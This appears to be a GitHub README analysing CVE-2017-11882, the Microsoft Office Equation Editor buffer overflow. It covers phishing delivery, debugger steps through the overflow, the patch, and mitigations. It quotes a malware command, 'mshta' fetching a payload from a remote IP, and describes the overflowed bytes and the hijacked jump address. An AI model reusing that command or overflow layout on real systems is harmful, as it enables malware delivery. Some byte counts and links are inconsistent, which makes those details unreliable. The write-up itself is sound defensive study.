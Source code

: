 # Microsoft Office Memory Corruption (CVE-2017-11882)  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Word%20Logo.png"></p> 

### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/CVSS.png"></p>
<p align="center"> Figure 1:  CVSS score [1] </p>  


### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Spam%20Email.png"></p>
<p align="center"> Figure 2:  Spam Email [2] </p>  


### Process Monitor
It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).  
[It is used to monitor and display all the activities of file system in real-time.](https://en.wikipedia.org/wiki/Process_Monitor)  
* Unexpected operation named 'EQNEDT32.EXE'
* Command line has been called
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Process%20Monitor.png"></p>
<p align="center"> Figure 3:  Processes List [3] </p>  


### Burp Suite
It is a [web vulnerability scanner](https://portswigger.net/burp).  
[It is a set of tools used for penetration testing of web applications.](https://www.geeksforgeeks.org/what-is-burp-suite/g)  
* Unexpected 'GET' request 
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Burp%20Suite.png"></p>
<p align="center"> Figure 4:  Get request [3] </p>  


### Steps after you click the malicious word file:
#### 1. Microsoft Word file load up  
Here microsoft word will load up and read and compile the stuff inside. 
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%201.png"></p> 
  
#### 2. Execute Equation Editor  
Everyone used the equation editor before, to create the nice look equations.  
However, the equation editor is another individual program and Microsoft Word invokes its own process.  
In this case, everything inside the equation editor can skip all Microsoft protection bubbles.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%202.png"></p> 
  
#### 3. Hacker overflowed the font name registers inside Equation Editor  
Before overflow EAX save the length of font name which is 16 bytes (Hex:00000010).  
And the detail inside the font name registers is “TIMES NEW ROMAN”.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%203-1.png"></p> 
<p align="center"> Figure 5:  Debuger screenshot 1 [3] </p>  
After overflow, EAX pointed to 0012F350 and overflowed all other registers.  
On memory 004115CF, it loads whatever is inside the ebp register and pushes into the EAX register.  
The ebp register is a two way pointer and linking between word document and equation editor.  
The hacker changed the ebp register value to 48 bytes and then it was loaded to the EAX register.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%203-2.png"></p> 
<p align="center"> Figure 6:  Debuger screenshot 2 [3] </p>
  
#### 4. Overflow message  
Let now take a look at the 48 bytes detail inside the overflowed register beginning at address: 0012F350.  
From address 0012F350 to 0012F360 32 bytes are saving the hacker's mshta link and it can send a get request to this link and download the malicious software.  
Address: 0012F370 first 12 bytes are ‘20’ which are saving shell code inside but we cannot see it in detail through ASCii reader.   
The final 4 bytes are ‘12 0C 43 00’ which is the new EIP register address that the hacker wants us to jump to in the next step.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%204.png"></p> 
<p align="center"> Figure 7:  Debuger screenshot 3 [3] </p>  
  
#### 5. Redirect to new EIP address  
Here we can see at address: 00430C12 it call the Winexe program.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%205.png"></p> 
<p align="center"> Figure 8: Debuger screenshot 4 [3] </p>  
  
#### 6. Winexe execute   
From the code here we can see the Winexe execute at address 00430C12 and talk to the EAX register as it input.  
In this case, inside the Winexe it will run shell code first, then send a get request to the hacker's link.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%206.png"></p> 
<p align="center"> Figure 9: Debuger screenshot 5 [3] </p>  
  
#### 7. Download hacker’s malicious software   
Finally after everything executes and runs correctly, it will download the malicious software and hide in some specific hard finding place to continuously steal your personal information.  


### [How to protect yourself from this exploit](https://support.microsoft.com/en-us/topic/how-to-disable-equation-editor-3-0-7e000f58-cbf4-e805-b4b1-fde0243c9a92)
The best way to protect your machine from this vulnerability is patching.
However, if you decide not to patch, a simple way to protect your machine is to disable EQUAEDT32.exe which is the equation editor that has the vulnerability.
The following commands can update your registry to disable EQUAEDT32.exe.
If you have an Office software running on a x64 machine, then you can use the second command, otherwise the first command is your choice. [4]  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Update%20Registry.png"></p> 
<p align="center"> Figure 10: Update registry [4] </p>  


### [Official Patch](https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html)
The official patching for CVE-2017-11882 was done in a Patch Tuesday update in November 2017. The patching was mainly done at function sub_0041160F.
The difference of the patched function(left hand side) and the original function(right hand side) is shown below.
The left top block shows that a boundary check is added. This line of code reset the counter register to 0x20 if it is larger than or equal to 0x21.
The left bottom block added a buffer truncation. This code makes sure only 0x20 bytes are copied and zero-terminate. [5]  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Official%20Patch.png"></p> 
<p align="center"> Figure 11: Official Patch [5] </p>  


### How to avoid?
* Don’t skip patches.  
Simply __patch__ or __update__ the software can prevent an attack from happening. 
* Use a real-time anti-virus.  
Using a __anti-virus software__ can sometime be helpful.
* Filter your email.  
__Block__ the type of document that you don't use.  
__Do not click__ on the link or a document that looks suspicious. 
* Keep track of your websites. 
__Don’t enable online services__ or __create online accounts__ just because of promotion. 


## References:  
[1]"NVD - CVE-2017-11882", Nvd.nist.gov, 2021. [Online]. Available: https://nvd.nist.gov/vuln/detail/CVE-2017-11882. [Accessed: 18- Mar- 2021].  
[2]Blogs.quickheal.com, 2021. [Online]. Available: https://blogs.quickheal.com/wp-content/uploads/2018/02/Fig3.png. [Accessed: 18- Mar- 2021].  
[3]C. Hardy, Stack Buffer Overflows - a primer on smashing the stack using CVE-2017-11882. 2021.  
[4]C. Hardy, CVE-2017-11882 - 3 ways to perform technical analysis, 1 easy way to protect. 2021.  
[5]L. Treiber, "Microsoft's Manual Binary Patch For CVE-2017-11882 Meets 0patch", Blog.0patch.com, 2021. [Online]. Available: https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html. [Accessed: 18- Mar- 2021].
